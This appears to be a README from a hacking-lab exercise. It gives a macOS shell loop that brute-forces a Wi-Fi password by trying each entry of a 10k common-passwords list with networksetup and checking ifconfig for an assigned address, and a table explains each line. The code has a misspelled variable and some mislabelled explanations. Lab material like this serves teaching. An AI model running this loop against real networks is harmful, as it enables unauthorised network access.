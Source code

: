 ```cd HackingLab```

while read passwordfilevalue; do

networksetup -setairportnetwork en0 🌹☠️🌹 "$passwordfilevalue"

ifconfig en0 | grep inet

echo $passworfilevalue 

done < 10k-most-common.txt


    - [x] Manually guess some passwords
    - [x] Find a dictionary
    - [x] Find a command to use to connect to wifi networks 
    - [x] Figure out how to push the passwords from the dictionary file into the wifi connection command
    - [x] Launch the attack and Discover the credential
    - [ ] Discovering the credential

settings         |  wifi
:-------------------------:|:-------------------------:
``` while read passwordfilevalue; do ```| We're going to write a "while" loop that will open the password list one row at a time. 
``` networksetup -setairportnetwork en0 🌹☠️🌹 "$passwordfilevalue" ``` | pass the word that's in the current row into a shell variable called passwordfilevalue. 
``` ifconfig en0 | grep inet ``` | run a command "ifconfig en0 | grep en0", which will help us discover if our password was correct.  If there is an inet value that is returned, that means we were granted an IP address, which means we our password was correct.
``` echo $passworfilevalue ``` | Finally, we print out the password value that was used during the loop so we can see what password was tried. 
``` done < 10k-most-common.txt ``` | Finally, we echo out the password value that was used during the loop so we can see what password was tried. 



So if we see an inet value return, we can see the password that worked.  In the gif below, you'll see a password which is not the password used on the full build, so you still have to go through the process yourself to hack the network. 😎


    - [x] Manually guess some passwords
    - [x] Find a dictionary
    - [x] Find a command to use to connect to wifi networks 
    - [x] Figure out how to push the passwords from the dictionary file into the wifi connection command
    - [x] Launch the attack and Discover the credential

![alt text](../BruteForceLoopMedium.gif "While Loop") 

When you've made it on to the wifi network, you're ready to start working through the challenges outlined in the challenges file.  


